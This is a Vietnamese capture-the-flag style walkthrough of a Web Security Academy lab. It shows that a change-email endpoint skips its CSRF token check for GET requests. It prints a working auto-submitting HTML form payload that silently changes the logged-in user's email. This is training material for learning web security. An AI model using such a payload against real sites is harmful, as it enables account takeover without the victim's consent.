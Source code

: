 ![image](https://github.com/user-attachments/assets/bdc80391-3a2e-4205-975a-add2e9a40c21)

![image](https://github.com/user-attachments/assets/7b9f6048-d099-4b97-b37c-1368d31cc2a6)

Lần này thử update và bắt gói đó xem sao. WOW, nó đã có `csrf token` bảo vệ.

![image](https://github.com/user-attachments/assets/59c5c9d3-448e-400a-9e8f-2f47b0cb0a1b)

Tuy nhiên khi ta test lại với method `GET` thì ta lại thấy có sự khác biệt. Ta có thể gửi 1 request khi không có csrf token, tuy nhiên nó vẫn thành công.

Vậy mindsets bây giờ là chúng ta hãy gửi 1 auto submit form với `method GET`

Payload:

```
<html>
  <body>
    <form action="https://0a3600ee0397e1ed82403824007f00e2.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="clap@gmail.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/8a9f2584-78eb-4b8d-a665-fb51252d1d52)

Vậy là thành công rồi đó.

